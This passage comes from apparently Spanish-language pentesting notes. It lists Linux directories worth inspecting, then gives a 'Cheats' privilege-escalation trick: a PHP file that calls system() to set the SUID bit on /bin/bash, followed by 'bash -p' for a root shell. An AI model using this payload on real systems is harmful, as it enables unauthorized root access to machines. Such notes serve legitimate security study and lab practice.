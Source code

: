 ```
/var/log/mysql.log   # Logs de MySQL
```
#### Directorios de servicios y aplicaciones
```
/opt/                # Aplicaciones de terceros
/var/www/            # Directorio web por defecto
/var/www/html/       # Contenido web
/etc/apache2/        # Configuración de Apache
/etc/nginx/          # Configuración de Nginx
/etc/mysql/          # Configuración de MySQL
```
#### Directorios temporales y cache
```
/tmp/                # Archivos temporales (world-writable)
/var/tmp/            # Temporales persistentes
/dev/shm/            # Memoria compartida
```
#### Directorios de backup y configuraciones
```
/backup/             # Backups personalizados
/var/backups/        # Backups del sistema
/etc/backup/         # Backups de configuración
```
## Cheats
### SUID
```php
echo '<?php system("chmod u+s /bin/bash"); ?>' > /dir/ejemplo.php
```
Este código añade el bit SUID al binario bash, después solo es necesario esperar a que se ejecute y lanzar un `bash -p` 
```
`echo "Este es el contenido del archivo." > archivo.txt`
```
Creará un archivo llamado archivo.txt con ese contenido
## !Post-esc